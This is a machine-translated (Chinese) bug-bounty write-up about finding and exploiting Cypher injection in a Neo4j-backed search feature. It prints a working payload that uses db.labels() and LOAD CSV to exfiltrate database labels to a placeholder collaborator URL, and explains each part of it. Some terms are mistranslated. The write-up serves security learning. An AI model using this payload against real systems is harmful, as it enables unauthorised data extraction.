 # 有史以来最被低估的注射剂——赛佛注射剂。识别和开发！

> 原文：<https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8?source=collection_archive---------0----------------------->

![](img/006eccb097206a656a2fb3bd4270c4ff.png)

表情包

> **背景**

Cypher 是 Neo4j 的图形查询语言，允许您从图形中检索数据。它就像是图形的 SQL，并且受到 SQL 的启发。

Neo4j 是一个图形数据库管理系统，它使用 cypher 作为其主要语言从图形中查询数据，就像 mySQL(这是一个关系数据库管理系统)使用 SQL 作为其主要语言从表中查询数据一样。

[这里有更多关于 cypher & neo4j 的信息](https://neo4j.com/developer/cypher/) …

> **查找 bug**

我黑进了 HackerOne 上的一个私人程序。到那时，我已经在那里发现了一些高严重性的错误。该计划在范围内有两个 pentest 租户，并为每个租户提供了凭据。每个租户都有几个组织，并且凭证允许访问一些组织。每个租户都有一个很少使用的搜索功能(搜索其下的组织)。我去了 burp suite，看到了搜索功能生成的请求。我习惯在搜索词的末尾附加一个单引号( ' )，没有任何期望。但令我惊讶的是，服务器返回了一个错误—

![](img/af697241070a15de5653c4df3212f7a1.png)

(不是完全的错误，但它是这样开始的，我发现这个错误时，我对错误奖金非常陌生，从未考虑过保留任何错误的截图)这是我第一次看到这样的错误，我复制了开始的部分，并在谷歌上搜索。从那里我了解了 neo4j 数据库和什么是密码。Cypher 非常像 sql，因此我在 google 上搜索的下一个东西是“cypher injection”(因为基于 sql 的注入被称为 sql injection)。关于这个 bug 的文章很少，明智的做法是几乎没有 2-3 篇文章。我把它们都读了一遍，并有了一个如何利用它们的想法。我花了两天时间为易受攻击的目标开发有效载荷。我在谷歌上得到的信息肯定有基本的有效载荷，但这些没有直接工作。我不得不关闭一些引号、不完整的条件、方括号并最终部分完成现有查询(以便整体查询正常工作)以最终爆发并使其具有恶意。这是我得出的最后一个有效载荷

`.*' | o ] AS filteredOrganisations CALL db.labels() YIELD label LOAD CSV FROM 'http://<collaborator-url-here>/' + label AS r //`

> **有效载荷的说明**

`.*' | o ] AS filteredOrganisations`

这整个部分是为了部分关闭当前查询。上面的部分部分关闭了当前查询，并帮助向原始查询添加了新的子句。

`CALL db.labels() YIELD label`

CALL 子句用于计算子查询，这里子查询调用 db.labels()，这是一个内置过程，它返回数据库中使用的所有标签的列表。YIELD 子句将返回的列表存储在变量“label”中。

`LOAD CSV FROM 'http://<collaborator-url-here>/' + label AS r //`

LOAD CSV 是一个子句，用于通过 from 关键字从用户定义的位置加载 CSV 文件。这里，LOAD CSV 向我们的 burp collaborator 客户端发出请求，一次附加一个列表元素“label”。结果，多个请求被发送到我的 burp collaborator 客户端，并且所有请求都在请求的端点上附加了不同的标签名称。使用结尾部分“AS r”只是因为没有它，查询会不断中断，它所做的只是将 csv 文件作为“r”加载，最后两个正斜杠“//”用于注释掉同一行中查询的其余部分。

所有这些部分结合起来形成了有效载荷，帮助我创建了一个基本的概念验证

> **剥削**

总的剥削看起来是这样的—

原始剥削

对不起，伙计们的水印，它仍然是可见的。我只是想分享整个原始剥削概念。我不编辑视频，因此不想购买他们的订阅，但隐藏域名很重要，所以无论如何都要编辑它。

> **结论**

当我创建了上面的 poc 后，我非常兴奋，因为这将是我的第一个涉及到注射和 ssrf 的关键 bug。我很快报告了这个错误。第二天，我试图利用它，但由于某种原因，我的基本检测有效载荷根本不工作。很快我意识到这个问题已经解决了。根本没有通知我。当时令人沮丧，但几个小时后，团队成员承认了这个错误，并以他们提供的最高奖金奖励了我。

![](img/f56444d2b71387ea82f082b273dfa727.png)

慷慨

> **外卖**

现在不会用常识来烦你了。它只是做研究，谷歌的东西和使用常识。以我为例，在我了解到 cypher 是一种类似于 sql 的语言(或者说是受 sql 启发)之后，搜索“cypher injection”纯粹是常识。

阅读文档。老实说，我读了很多关于 cypher 和 neo4j 的东西，然后能够提出有效载荷。有效负载非常简单，我使用的方法已经可以在互联网上获得，但要应用有效负载，我首先必须知道密码查询是如何工作的，并正确地分析易受攻击的目标。

> **简单介绍一下自己**

老实说，到目前为止这是我找到的唯一的关键。我确实经常发现严重程度高的错误，但是严重错误有不同的情况。有很多次，我认为我找到了一个关键，甚至设法让我的报告被归类为关键(在少数情况下)，但最终由于一些复杂性，它总是归结为高或中。我会说，不要急于求成，有时高和中等一起可以让你赚一些钱。明年我一定会努力工作，找到一些令人惊奇的 bug，希望能找到一些关键的 bug(至少几个)。我已经认真地开始寻找 bug 一年了，就我所拥有的金钱、独立和时间而言，这是一段不可思议的旅程。我不是专业人士，这只是我想分享的一个很酷的发现: )

如果你已经读到这里，那么谢谢你。我希望这是值得的，你学到了新的东西。

在 linkedin 上关注我—[https://www.linkedin.com/in/marvelmaniac/](https://www.linkedin.com/in/marvelmaniac/)

在推特上关注我——https://twitter.com/maniacmarvel_

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！